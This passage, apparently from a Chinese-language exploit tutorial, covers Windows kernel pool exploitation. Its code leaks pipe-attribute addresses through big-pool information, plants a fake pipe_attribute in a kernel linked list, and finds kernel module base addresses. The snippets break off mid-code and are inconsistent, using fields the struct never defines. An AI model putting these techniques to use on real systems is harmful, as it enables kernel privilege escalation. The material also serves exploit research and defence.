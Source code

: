 ```bash
struct PipeAttribute {
    LIST_ENTRY list ;
    char * AttributeName;
    uint64_t AttributeValueSize;
    char * AttributeValue;
    char data [0];
};
```

每当内核模式组件的分配超过上述限制时，就会进行大池分配。然后使用 NtQuerySystemInformation 去转储池所分配的信息类有大小，tag 还有类型（Paged 或是 Non-Paged）还有内核虚拟地址。

```bash
NTSTATUS status = STATUS_SUCCESS;
if (NT_SUCCESS(status = ZwQuerySystemInformation(SystemBigPoolInformation, mem, len, &len))) {
    PSYSTEM_BIGPOOL_INFORMATION pBuf = (PSYSTEM_BIGPOOL_INFORMATION)(mem);
    for (ULONG i = 0; i < pBuf->Count; i++) {
        __try {
            if (pBuf->AllocatedInfo[i].TagUlong == PIPE_ATTR_TAG) {
                // save me
            }
        }
        __except (EXCEPTION_EXECUTE_HANDLER) {
            DPRINT_LOG("(%s) Access Violation was raised.", __FUNCTION__);
        }
    }
}
```

使用这个特性，我们可以很容易地获得新创建的管道对象的地址。然后开始分配 fake\_pipe\_attribute 对象，以便稍后将其地址注入到最开始双链表中。用如下方式保存内核 pipe\_attribute 指针

```bash
fake_pipe_attribute = (PipeAttributes*)VirtualAlloc(NULL, ATTRIBUTE_SIZE, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
fake_pipe_attribute->list.Flink = pipe_attribute_1;
fake_pipe_attribute->list.Blink = pipe_attribute_2;
fake_pipe_attribute->id = ANY;
fake_pipe_attribute->length = NEEDED;
```

通过 NtQuerySystemInformation 获取基址

```bash
ntStatus = NtQuerySystemInformation(SystemModuleInformation,   
                                    &module, /*pSysModInfo*/  
                                    sizeof(module), /*sizeof(pSysModInfo) or 0*/  
                                    &dwNeededSize );  
{

if (STATUS_INFO_LENGTH_MISMATCH == ntStatus)   
{  
    pSysModInfo = ExAllocatePoolWithTag(NonPagedPool, dwNeededSize, 'GETK');  

    if (pSysModInfo) {  
        ntStatus = NtQuerySystemInformation(SystemModuleInformation,   
                                            pSysModInfo,   
                                            dwNeededSize,   
                                            NULL );            
        if (NT_SUCCESS(ntStatus))  
        {  
            for (int i=0; i<(int)pSysModInfo->dwNumberOfModules; ++i)  
            {  
                StrUpr(pSysModInfo->smi[i].ImageName); // Convert characters to uppercase  
                if (strstr(pSysModInfo->smi[i].ImageName, MODULE_NAME))  {  
                    pModuleBase  = pSysModInfo->smi[i].Base;                      
                    break;  
```